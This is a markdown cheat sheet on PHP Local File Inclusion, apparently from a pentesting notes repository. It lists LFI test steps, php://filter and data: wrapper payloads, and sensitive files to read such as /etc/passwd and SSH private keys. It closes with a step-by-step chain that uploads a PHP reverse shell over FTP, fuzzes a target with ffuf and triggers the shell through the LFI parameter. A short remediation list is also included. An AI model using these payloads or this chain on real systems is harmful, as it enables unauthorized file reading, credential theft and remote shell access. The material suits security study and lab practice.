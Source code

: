 # Local File Inclusion (LFI)

## PHP Vulnerable functions:

### Include_once()

### Include()

### require()

#### Example: http://site.com/index.php?file=/etc/passwd (Linux)

#### http://site.com/index.php?file=/windows/win.ini (Windows)

## LFI Testing

#### 1: GET,POST,COOKIE,HTTP header values

#### 2: Valid input to check web server behavior

#### 3: Invalid inputs

#### 4: Use burpsuite or browser address, not only forms

#### 5: Look for errors while entering invalid input to disclose the current path of the web app (trial and error)

#### 6: Understand input validation and check for filters

#### 7: Inject a valid entry to read sensitive files

## File Inclusion Remediation (Both LFI and RFI)

#### 1: Keep systems, services and web apps updated.

#### 2: Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.

#### 3: Web Application Firewall (WAF)

#### 4: Whitelist/Blacklist file names and locations

#### 5: Disable allow_url_fopen and allow_url_include (PHP)

#### 6: Input validation

#### 7: Allow only protocols and PHP wrappers in need.

### PHP WRAPPERS

#### 1) 

    php://filter/convert.base64-encode/resource=.htaccess

#### 2) 

    php://filter/string.rot13/resource=.htaccess

#### 3) 

    php://filter/string.toupper/resource=.htaccess

#### 4) 

    php://filter/string.tolower/resource=.htaccess

#### 5) 

    php://filter/string.strip_tags/resource=.htaccess

### DATA WRAPPER 

    data:text/plain,<?php phpinfo(); ?>

## Important files to look for:

#### 1) /etc/passwd

#### 2) /home/USER/.ssh/id_rsa

#### 3) /etc/apache2/sites-enabled/000-default.conf

#### 4) /var/www/html/config.php

#### 5) /var/www/html/.htpasswd

## LFI to RCE by calling your uploaded reverse shell

If you have write access on an FTP server, you can upload your reverse shell, then call it with LFI to catch it.

### 1) Upload your reverse shell in a writable FTP share

    put php-reverse-shell.php

### 2) Using LFI, find the FTP configuration file to detect the share that your shell is uploaded.

Enumerate with ffuf

    ffuf -c -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-etc-files-of-all-linux-packages.txt -t 100 -u http://192.168.158.14/secret_information/?lang=FUZZ -fs 146

Read FTP configuration file

    http://domain.local/vulnerable.php?lang=/etc/vsftpd.conf

You might detect something like

    anon_root=/var/ftp write_enable=YES (If anonymous access is allowed for example.)

### 3) Enjoy your shell

    http://domain.local/vulnerable.php?lang=/var/ftp/pub/php-reverse-shell.php

